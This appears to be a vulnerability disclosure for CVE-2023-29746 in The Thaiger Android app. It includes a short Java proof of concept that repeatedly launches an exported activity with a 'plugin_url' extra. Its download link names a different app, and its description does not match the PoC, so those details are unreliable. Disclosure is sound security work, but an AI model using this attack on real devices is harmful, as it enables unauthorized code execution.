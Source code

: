## Code execution exists in The Thaiger（CVE-2023-29746）

Vendor：Thaiger(https://thethaiger.com/)

Affected product：The Thaiger(com.TheThaiger.android) 

Version：1.2

Download link： https://play.google.com/store/apps/details?id=com.amdroidalarmclock.amdroid

Description of the vulnerability for use in the CVE：An issue found in The Thaiger v.1.2 for Android allows unauthorized apps to cause a code execution attack by manipulating the SharedPreference files.



poc：

```java
private void attack() {
    while (true) {
        Intent intent = new Intent();
        ComponentName componentName = new ComponentName("com.TheThaiger.android", "com.mobiloud.activity.SplashScreenActivity");
        intent.setComponent(componentName);
        intent.putExtra("plugin_url","https://www.google.com");
        try {
            startActivity(intent);
        } catch (Exception e) {
        }
    }
}
```



